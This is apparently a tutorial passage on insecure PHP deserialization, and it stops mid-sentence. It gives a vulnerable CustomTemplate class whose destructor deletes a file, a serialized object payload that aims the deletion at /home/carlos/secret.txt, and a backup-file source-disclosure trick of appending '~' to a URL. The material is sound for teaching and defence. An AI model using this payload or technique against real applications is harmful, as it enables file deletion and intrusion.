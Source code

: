 In OOP, the methods available to an object are determined by its class. Therefore, if an attacker is able to manipulate which class of object is being passed in as serialized data, they can influence what code is executed during or after the deserialization process.

This vulnerability that occur due to insecure deserialization can open up many more exploit possibilities within an application. Since deserialization methods usually do not check for the object or class type of the data they are deserializing. An attacker can pass objects of any serializable class that is available to the application, allowing them to create instances of arbitrary classes.

While the unexpected object type might cause an exception in the application logic, the malicious object would have already been instantiated by then (magic methods).
## Example
1. Assume that an application accepts serialized data from a user-controlled input. In which the application then deserializes this data using the `unserialize()` function.
2. An attacker was able to perform information disclosure by adding `~` at the end of the URL (`target.com/CustomTemplate.php~`) and is able to view the following file:
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```
3. An attacker can then create their own serialized data using the class and object above, and replace the original and submit it to the application, to do damage on the target, such as deleting a file in this example:
```txt
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/secret.txt";}
```
4. When the application deserializes this 
